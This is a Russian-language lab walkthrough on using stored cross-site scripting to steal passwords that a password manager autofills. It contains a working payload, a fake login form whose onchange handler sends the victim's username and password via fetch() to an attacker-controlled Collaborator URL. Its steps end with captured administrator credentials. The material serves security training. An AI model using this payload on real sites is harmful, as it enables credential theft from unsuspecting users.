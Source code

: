 ## 🔐 Использование межсайтового скриптинга для кражи паролей

В наши дни у многих пользователей есть менеджеры паролей, которые автоматически заполняют их пароли. Вы можете воспользоваться этим, создав поле ввода пароля, считав автоматически заполненный пароль и отправив его на свой домен. Этот метод позволяет избежать большинства проблем, связанных с кражей файлов cookie, и даже может получить доступ к любой другой учетной записи, где жертва повторно использовала тот же пароль.

Основным недостатком этого метода является то, что он работает только для пользователей, у которых есть менеджер паролей, выполняющий автоматическое заполнение паролей. (Конечно, если у пользователя не сохранён пароль, вы всё равно можете попытаться получить его пароль с помощью фишинговой атаки на сайте, но это не совсем то же самое.)

### 🔬 Пример лабораторной работы: кража пароля с помощью XSS
Эта лаборатория содержит сохранённую уязвимость XSS в функции комментариев блога. Имитированный пользователь-жертва просматривает все комментарии после их публикации. Чтобы решить эту лабораторную работу, воспользуйтесь уязвимостью, чтобы выкрасть имя пользователя и пароль жертвы, а затем используйте эти учётные данные для входа в учётную запись жертвы.

### Шаги:

1. Переходим на любой пост и спускаемся вниз к форме комментария:

   ![image](https://github.com/user-attachments/assets/3071b40a-9a9b-43c0-b3b4-017ccb49e5c2)

2. Отправьте следующую полезную нагрузку в комментарии к блогу, вставив свой поддомен Burp Collaborator в указанное место:

   ```html
   <form>
     <input type="text" name="username" id="username" autocomplete="username">
     <input type="password" name="password" autocomplete="current-password"
     onchange="if(this.value.length) {
       fetch('https://YOUR-COLLABORATOR-URL', {
         method: 'POST',
         mode: 'no-cors',
         body: 'username=' + encodeURIComponent(document.getElementById('username').value) +
               '&password=' + encodeURIComponent(this.value)
       });
     }">
   </form>
   ```

3. В коллабораторе в HTTP запросе будут учётные данные пользователя administrator:

   ![image](https://github.com/user-attachments/assets/c239c04f-d60b-49ff-9700-ff5f4130ec6b)
